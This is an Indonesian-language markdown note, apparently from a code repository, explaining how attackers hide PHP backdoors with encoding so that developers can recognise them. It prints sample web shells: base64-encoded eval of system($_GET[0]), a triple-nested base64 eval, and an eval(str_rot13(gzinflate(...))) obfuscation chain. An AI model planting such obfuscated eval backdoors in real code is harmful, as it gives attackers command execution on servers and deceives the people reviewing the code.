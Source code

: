 # Careful hidden backdoor with Encoding

Encoding adalah sebuah cara untuk merubah sebuah string menjadi string acak dengan algoritma tertentu, tujuan untuk membuat komputer lebih mudah mengenali ataupun untuk menjaga konsistensi perpindahan data. Encoding biasanya susah untuk dibaca ataupun dipahami dikarenakan bentuknya acak sekali. Hal ini yang dimanfaatkan para hacker untuk menyembunyikan sebuah backdoor. Seperti berikut ini contohnya.



# Simple base64 backdoor

```php
<?php 
    
    $data = "ZWNobyBzeXN0ZW0oWzBdKTs="; //echo system($_GET[0]);
	eval(base64_decode($data));
```

atau 

```php
<?php eval(base64_decode("ZWNobyBzeXN0ZW0oWzBdKTs")) ?>
```



Biasanya stringnya sangat panjang sekali, dan selalu dieksekusi oleh `eval`



# Nested base64 

```php 
<?php 
   	eval(base64_decode(base64_decode(base64_decode("V2xkT2IySjVRbnBsV0U0d1dsY3diMWQ2UW1STFZITTlDZz09Cg=="))));
```

Nested base64 biasanya untuk mengelabuhi seorang `Junior Developer` yang mana biasanya akan mengabaikan sebuah syntax yang dia tidak pahami.



# Nested Encoding and Evasion



```php
<?php
eval(str_rot13(gzinflate(str_rot13(base64_decode('string')))));
?>
```



